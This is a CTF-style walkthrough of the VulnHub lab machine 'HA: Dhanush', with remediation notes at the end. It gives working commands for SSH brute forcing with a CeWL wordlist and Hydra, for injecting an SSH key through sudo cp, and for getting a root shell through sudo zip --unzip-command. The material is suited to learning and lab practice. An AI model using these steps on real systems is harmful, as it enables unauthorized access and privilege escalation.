



# HA: Dhanush — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | /root/flag.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ha-dhanush,411/) |

## Attack Summary

nmap (SSH on 65345) → CeWL wordlist → Hydra SSH brute (pinak:Gandiv) → sudo cp to inject authorized_keys → SSH lateral move to sarang → sudo zip unzip-command abuse → root

## Methodology

1. Network discovery — find non-standard SSH port
2. Build wordlist from web app with CeWL
3. Hydra brute-force SSH
4. Lateral move to sarang via sudo cp of SSH authorized_keys
5. Escalate via sudo zip abuse

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -p- -A 192.168.1.101
```

Open ports: **80** (HTTP), **65345** (SSH — non-standard port).


---

## Step 2: Build Wordlist and Brute SSH

Generate a wordlist from the target web app:

```bash
cewl http://192.168.1.101/ -w dict.txt
cat dict.txt
```

Use it with Hydra against the non-standard SSH port:

```bash
hydra -L user.txt -P dict.txt 192.168.1.101 ssh -s 65345 -e nsr
```

Credentials found: **pinak:Gandiv**


---

## Step 3: SSH In and Enumerate

```bash
ssh pinak@192.168.1.101 -p 65345
sudo -l
```

The sudo list shows pinak can run `/bin/cp` as user `sarang`.

```bash
ls /home/sarang
```



---

## Step 4: Lateral Move to sarang via sudo cp

Generate an SSH key pair on the attacker:

```bash
ssh-keygen -f /tmp/dhanush_key
```

Inject the public key into sarang's authorized_keys:

```bash
# As pinak on target:
cp ~/.ssh/id_rsa.pub /home/pinak/id_rsa.pub
chmod 644 /home/pinak/id_rsa.pub
sudo -u sarang /bin/cp /home/pinak/id_rsa.pub /home/sarang/.ssh/authorized_keys
```

Now SSH in as sarang:

```bash
ssh sarang@127.0.0.1 -i /tmp/dhanush_key -p 65345
sudo -l
```

sarang can run `zip` as root without a password.



---

## Step 5: sudo zip Abuse → Root

The `zip --unzip-command` option executes an arbitrary command when testing with `-T`. Since sudo allows zip as root, this spawns a root shell:

```bash
touch /tmp/raj
sudo zip /tmp/raj.zip /tmp/raj -T --unzip-command="sh -c /bin/bash"
```

```bash
id
# uid=0(root) gid=0(root)
cd /root
cat flag.txt
```



---

## Lessons Learned

1. **Non-standard port** scanning (`-p-`) is mandatory — services on unusual ports are commonly overlooked
2. **CeWL + Hydra** is a reliable combo against SSH when the password follows web app vocabulary
3. **sudo cp** with no restrictions allows injecting SSH keys for any user on the system
4. **sudo zip with -T** is a well-known GTFOBins vector — any write or unzip-capable sudo command may escalate

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SSH on non-standard port with weak password | Enforce key-only auth; disable password auth |
| sudo /bin/cp for non-root user | Remove or restrict to specific source/destination paths |
| sudo zip NOPASSWD | Remove from sudoers; never grant write-capable commands without strong need |
